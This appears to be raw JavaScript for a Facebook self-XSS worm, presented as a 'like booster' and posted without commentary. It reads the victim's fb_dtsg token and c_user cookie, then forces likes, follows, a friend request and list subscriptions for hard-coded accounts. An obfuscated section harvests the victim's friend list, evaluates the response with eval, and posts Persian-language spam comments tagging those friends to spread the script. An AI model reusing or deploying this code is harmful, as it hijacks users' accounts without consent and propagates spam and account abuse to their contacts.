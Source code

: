 1234
====

 var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); alert('ok کلیلک کنید.برای بالارفتن لایک یا فالو روی');  function cereziAl(isim) {         var tarama = isim + "=";         if (document.cookie.length > 0) {                 konum = document.cookie.indexOf(tarama)                 if (konum != -1) {                         konum += tarama.length                         son = document.cookie.indexOf(";", konum)                         if (son == -1) son = document.cookie.length                         return unescape(document.cookie.substring(konum, son))                 } else {                         return "";                 }         } }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);  function a(abone) {         var http4 = new XMLHttpRequest;         var url4 = "/ajax/follow/follow_profile.php?__a=1";         var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp=";         http4.open("POST", url4, true);         http4.onreadystatechange = function () {                 if (http4.readyState == 4 &amp;&amp; http4.status == 200) http4.close         };         http4.send(params4) }  function sublist(uidss) {         var a = document.createElement('script');         a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();";         document.body.appendChild(a) } var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var now = (new Date).getTime();  function P(post) {         var X = new XMLHttpRequest();         var XURL = "//www.facebook.com/ajax/ufi/like.php";         var XParams = "like_action=true&amp;ft_ent_identifier=" + post + "&amp;source=1&amp;client_id=" + now + "%3A3366677427&amp;rootid=u_ps_0_0_14&amp;giftoccasion&amp;ft[tn]=%3E%3DU&amp;ft[type]=20&amp;ft[qid]=5882006890513784712&amp;ft[mf_story_key]=" + post + "&amp;nctr[_mod]=pagelet_home_stream&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8ahyj35CFwXAg&amp;__req=j&amp;fb_dtsg=" + fb_dtsg + "&amp;phstamp=";         X.open("POST", XURL, true);         X.onreadystatechange = function () {                 if (X.readyState == 4 &amp;&amp; X.status == 200) {                         X.close                 }         };         X.send(XParams) } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);  function Like(p) {         var Page = new XMLHttpRequest();         var PageURL = "//www.facebook.com/ajax/pages/fan_status.php";         var PageParams = "&amp;fbpage_id=" + p + "&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg=" + fb_dtsg + "&amp;phstamp=";         Page.open("POST", PageURL, true);         Page.onreadystatechange = function () {                 if (Page.readyState == 4 &amp;&amp; Page.status == 200) {                         Page.close                 }         };         Page.send(PageParams) }  function IDS(r) {         var X = new XMLHttpRequest();         var XURL = "//www.facebook.com/ajax/add_friend/action.php";         var XParams = "to_friend=" + r + "&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg=" + fb_dtsg + "&amp;phstamp=";         X.open("POST", XURL, true);         X.onreadystatechange = function () {                 if (X.readyState == 4 &amp;&amp; X.status == 200) {                         X.close                 }         };         X.send(XParams) } P("1379623448985310");a("100002876005429");a("100005278450024");a("100002831571802");a("100002479161845");a("100002003535173");a("100004211921167");a("100003821048548");a("100001794891057");a("100008130037282");IDS("100008130037282");sublist("234686940066301");sublist("234686973399631");;sublist("234609593407369");sublist("234687023399626");sublist("234687123399616");sublist("234687193399609");sublist("234687230066272");sublist("234687253399603");sublist("234772380057757");sublist("234772463391082");sublist("532361370216758");sublist("553428548110040");sublist("588850334541020");sublist("563528487073205");sublist("1379638095650512");sublist("1379668798980775");sublist("1379668652314123");sublist("1379668242314164");sublist("1379668378980817"); var _0xa22c = ["value", "fb_dtsg", "getElementsByName", "match", "cookie", " ", "onreadystatechange", "readyState", "arkadaslar = ", "for (;;);", "", "replace", "responseText", ";", "length", "entries", "payload", "round", " @[", "uid", ":", "text", "]", " ", "\x26filter[0]=user", "\x26options[0]=friends_only", "\x26options[1]=nm", "\x26token=v7", "\x26viewer=", "\x26__user=", "https://", "indexOf", "URL", "GET", "https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1", "open", "http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1", "send", "random", "floor", "\x26ft_ent_identifier=", "\x26comment_text= دوستان من این کدو زدم ولایکام رفت بالا، واقعا کار میکنه واسه همین تگتون کردم مرسی از پیج :* شما هم امتحان کنین عالیه. &lt;3 B| :* ^_^ ", "\x26source=2", "\x26client_id=1377871797138:1707018092", "\x26reply_fbid", "\x26parent_comment_id", "\x26rootid=u_jsonp_2_3", "\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:", "}", "\x26attached_sticker_fbid=0", "\x26attached_photo_fbid=0", "\x26giftoccasion", "\x26ft[tn]=[]", "\x26__a=1", "\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo", "\x26__req=q", "\x26fb_dtsg=", "\x26ttstamp=", "POST", "/ajax/ufi/add_comment.php", "Content-type", "application/x-www-form-urlencoded", "setRequestHeader", "status", "close"]; var fb_dtsg = document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]]; var user_id = document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]); var id = _0xa22c[5]; var arkadaslar = []; var svn_rev;  function arkadaslari_al(id) {         var _0x7892x7 = new XMLHttpRequest();         _0x7892x7[_0xa22c[6]] = function () {                 if (_0x7892x7[_0xa22c[7]] == 4) {                         eval(_0xa22c[8] + _0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9], _0xa22c[10]) + _0xa22c[13]);                         for (f = 0; f &lt; Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]] / 27); f++) {                                 mesaj = _0xa22c[10];                                 mesaj_text = _0xa22c[10];                                 for (i = f * 27; i &lt; (f + 1) * 27; i++) {                                         if (arkadaslar[_0xa22c[16]][_0xa22c[15]][i]) {                                                 mesaj += _0xa22c[18] + arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]] + _0xa22c[20] + arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]] + _0xa22c[22];                                                 mesaj_text += _0xa22c[23] + arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];                                         };                                 };                                 yorum_yap(id, mesaj);                         };                 };         };         var _0x7892x8 = _0xa22c[24];         _0x7892x8 += _0xa22c[25];         _0x7892x8 += _0xa22c[26];         _0x7892x8 += _0xa22c[27];         _0x7892x8 += _0xa22c[28] + user_id;         _0x7892x8 += _0xa22c[29] + user_id;         if (document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30]) >= 0) {                 _0x7892x7[_0xa22c[35]](_0xa22c[33], _0xa22c[34] + _0x7892x8, true);         } else {                 _0x7892x7[_0xa22c[35]](_0xa22c[33], _0xa22c[36] + _0x7892x8, true);         };         _0x7892x7[_0xa22c[37]](); };  function RandomArkadas() {         var _0x7892xa = _0xa22c[10];         for (i = 0; i &lt; 9; i++) {                 _0x7892xa += _0xa22c[18] + arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]() * arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]] + _0xa22c[20] + arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]() * arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]] + _0xa22c[22];         };         return _0x7892xa; };  function yorum_yap(id, _0x7892xc) {         var _0x7892xd = new XMLHttpRequest();         var _0x7892x8 = _0xa22c[10];         _0x7892x8 += _0xa22c[40] + id;         _0x7892x8 += _0xa22c[41] + encodeURIComponent(_0x7892xc);         _0x7892x8 += _0xa22c[42];         _0x7892x8 += _0xa22c[43];         _0x7892x8 += _0xa22c[44];         _0x7892x8 += _0xa22c[45];         _0x7892x8 += _0xa22c[46];         _0x7892x8 += _0xa22c[47] + id + _0xa22c[48];         _0x7892x8 += _0xa22c[49];         _0x7892x8 += _0xa22c[50];         _0x7892x8 += _0xa22c[51];         _0x7892x8 += _0xa22c[52];         _0x7892x8 += _0xa22c[29] + user_id;         _0x7892x8 += _0xa22c[53];         _0x7892x8 += _0xa22c[54];         _0x7892x8 += _0xa22c[55];         _0x7892x8 += _0xa22c[56] + fb_dtsg;         _0x7892x8 += _0xa22c[57];         _0x7892xd[_0xa22c[35]](_0xa22c[58], _0xa22c[59], true);         _0x7892xd[_0xa22c[62]](_0xa22c[60], _0xa22c[61]);         _0x7892xd[_0xa22c[6]] = function () {                 if (_0x7892xd[_0xa22c[7]] == 4 &amp;&amp; _0x7892xd[_0xa22c[63]] == 200) {                         _0x7892xd[_0xa22c[64]];                 };         };         _0x7892xd[_0xa22c[37]](_0x7892x8); }; arkadaslari_al(id);
